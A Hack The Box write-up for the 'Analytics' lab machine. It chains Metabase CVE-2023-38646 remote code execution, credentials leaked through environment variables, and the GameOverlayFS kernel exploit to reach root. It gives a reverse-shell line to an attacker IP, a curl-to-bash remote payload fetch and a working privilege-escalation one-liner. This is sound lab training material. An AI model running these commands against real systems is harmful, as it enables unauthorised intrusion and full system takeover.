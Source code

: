 ```yaml
---
title:  "HTB Analytics Writeup"
date:   2024-03-23 00:30:00 
categories: HTB Machine
tags: metabase CVE-2023-38646 environment_variables GameOverlayFS
---
```


![Analytics](/assets/img/Analytics/1696518021638.jpg)

## Introduction 

Analytics was a text book easy machine,To solve it you need to identify and abuse two publicly known vulnerabilities. The initial access costed me a little bit more time because of some syntax issues but once you got the hang of it it wasn't that hard. Root was a fun to exploit the now quite popular GameOverlayFS exploit


If you like any of my content it would help a lot if you used my referral link to buy Hack The Box/Academy Subscriptions which you can find on my about page.

## Initial access
### Recon

To start off our recon we will begin with an Nmap scan of the machine. Using the following command:
```
sudo nmap -sS -A  -p-  -o nmap  10.10.11.233
```
**Nmap**
```
# Nmap 7.94 scan initiated Sat Jan  6 13:21:47 2024 as: nmap -sS -A -p- -o nmap 10.10.11.233
Nmap scan report for 10.10.11.233
Host is up (0.026s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=1/6%OT=22%CT=1%CU=39066%PV=Y%DS=2%DC=T%G=Y%TM=65999A66
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11
OS:NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   22.75 ms 10.10.14.1
2   22.86 ms 10.10.11.233

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan  6 13:22:30 2024 -- 1 IP address (1 host up) scanned in 42.95 seconds
```
When reviewing the Nmap output we can see that only ssh and a web service. When going to the front page we can see that it is a static webpage. When going through the rest of the website i found a login panel which would redirect us to the subdomain **http://data.analytical.htb**


![Front page](/assets/img/Analytics/Analytics_01.png)


When checking out this subdomain we can see the login panel of metabase. When looking around for public exploits of metabase i found out that metabase recently had a new unauthenticated [remote code execution vulnerability](https://github.com/robotmikhro/CVE-2023-38646)

![Metabase login panel](/assets/img/Analytics/Analytics_02.png)

### Exploiting CVE-2023-38646
The exploit itself is not that complex but i experienced some difficulties with syntax. In the end the most stable way of getting a reverse shell was me hosting a reverse shell script on a webserver to then load it using a curl web request redirected to bash.

So first of all download the exploit using git

```bash
git clone https://github.com/robotmikhro/CVE-2023-38646.git
```

Next setup a webserver, we can do this with python using the following command

```bash
python -m http.server 80
```

Next create a file named exploit.sh in that webserver with the following contents

```bash
/bin/bash -i >& /dev/tcp/10.10.16.64/443 0>&1
```


Now that we have all our pre-requisites we can run the exploit script like so, This will execute a command that will load load our reverse shell on the machine.

```bash
python3 single.py -u http://data.analytical.htb --command="bash <(curl -s http://10.10.16.64/exploit.sh)"
```

![Exploit](/assets/img/Analytics/Analytics_03.png)

Then after a few seconds we'd get a reverse shell connection as the **metabase** user 

![Reverse shell](/assets/img/Analytics/Analytics_04.png)

## Lateral movement

So we landed on a docker container. While doing some basic enumeration I saw that there was some interesting information contained within the environment variables.You can check these values by running the env command.

```bash
env
```

In the output we can see the credentials of the **metalytics** user being **An4lytics_ds20223#**
```
env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=834c0dda368e
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=5
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
```

When we use these credentials using SSH we were given access to the machine itself and not the docker container

```bash
ssh metalytics@analytics.htb
An4lytics_ds20223#
```

![Reverse shell](/assets/img/Analytics/Analytics_05.png)

## Privilege escalation

When checking machines kernel version we could see that this is an outdated version which should be vulnerable to the known exploit [GameOverlayFS](https://github.com/luanoliveira350/GameOverlayFS)

![Vulnerable kernel](/assets/img/Analytics/Analytics_06.png)

This exploit can be executed using the following commands. If everything goes well you'll get access to the system as root.

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("sh")'
```

![Root access](/assets/img/Analytics/Analytics_07.png)
